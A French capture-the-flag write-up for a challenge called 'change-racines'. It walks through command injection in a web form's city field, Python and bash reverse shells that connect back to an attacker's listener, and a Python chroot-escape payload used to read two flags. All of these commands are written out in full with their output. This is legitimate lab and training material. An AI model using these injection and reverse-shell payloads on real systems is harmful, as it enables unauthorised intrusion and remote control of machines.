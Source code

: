 # change-racines
# Flag 1

## Recon

Information disponible:
- http://REDACTED:9090
- https://www.cheswick.com/ches/papers/berferd.pdf

Voici l'application 

![alt text](img/app.png)

Il y a un champ Ville et un boutton pour faire un refresh.

J'appuie sur le boutton avec le champ vide et j'obtiens:
```python
(b'\n', None)
```
Bon euh, j'ai clairement affaire a du python.

`None` je vais donc metttre une ville dans le champs ville:

```python
(b'PlatypusJovial\n', None)
```
Pour rire essayons ceci:
`import os; print('\n'.join(os.listdir('.')))`

```python
(b"/bin/bash: -c: line 1: syntax error near unexpected token `'\\n'.join'\n/bin/bash: -c: line 1: `echo import os; print('\\n'.join(os.listdir('.')))'\n", None)
```
Daccord.. euh `ls`?
```python
(b'ls\n', None)
```
Humm `$(ls)`
```python
(b'__pycache__ app.py bin etc flag1 get-pip.py lib lib64 python root templates usr\n', None)
```

A ben voila! `$(cat flag1)`
```python
(b'/bin/bash: line 1: cat: command not found\n\n', None)
```

Aw.. bon ok, plan B, necessairement `python` doit etre disponible et c'est envoyer a `bash -c`. Est-ce l'heure d'un reverse shell en python vous dites ma ptite dame? Mais ABSOLUMENT! https://www.revshells.com

J'ai du l'adapter un peu
```python
$(./python/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")')
```

Et la je crois avoir brise le jouet... (Sur l'instance de writeups)
```python
nc -lvnp REDACTED
listening on [any] REDACTED ...

connect to [REDACTED] from (UNKNOWN) [REDACTED] REDACTED
Traceback (most recent call last):
  File "<string>", line 1, in <module>
  File "/python/lib/python3.9/pty.py", line 156, in spawn
    pid, master_fd = fork()
  File "/python/lib/python3.9/pty.py", line 97, in fork
    master_fd, slave_fd = openpty()
  File "/python/lib/python3.9/pty.py", line 30, in openpty
    master_fd, slave_name = _open_terminal()
  File "/python/lib/python3.9/pty.py", line 60, in _open_terminal
    raise OSError('out of pty devices')
OSError: out of pty devices
```
Oh ... 

## Edit:
On m'a informer que ceci arrivais dans le CTF egalement, donc j'y suis aller directement en bash
```
$(bash -i >& /dev/tcp/$IP/$PORT 0>&1)
```

Et ben voila!
```
bash: cannot set terminal process group (92): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1# ls
ls
__pycache__
app.py
bin
etc
flag1
get-pip.py
lib
lib64
python
root
templates
usr
```
Avec un petit one-liner python 
```
./python/bin/python -c "print(open('flag1').read())"
```
```
bash-5.1# ./python/bin/python -c "print(open('flag1').read())"
./python/bin/python -c "print(open('flag1').read())"
FINCTF{Je-vous-4ssure-personne-ne-p3ut-obtenir-l3-seucrait!}
```

# Flag 2 : Get out of jail.. (plutot chroot)

Donc, nous avons python.
```
if not os.path.exists("chroot"):
    os.mkdir("chroot")
os.chroot("chroot")
```
Je me cree une tout nouvelle prison!

Et j'envoie le payload suivant: https://tbhaxor.com/breaking-out-of-chroot-jail-shell-environment/
```python
import os; os.chroot("chroot"); [os.chdir("..") for _ in range(10)]; os.chroot("."); os.system("/bin/sh");
```

Resultat:
```
ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Je vais fouiller dans /root
```
cd /root
ls
app.py
app.zip
chroot
create-env.sh
flag1
flag2
index.html
libnsl.so.2
libnsl.so.2.0.1
python.zip
cat flag2
FINCTF{n0o0o0o0-Nicéphore-va-devoir-travailler-très-tard}
```

Et ben voila!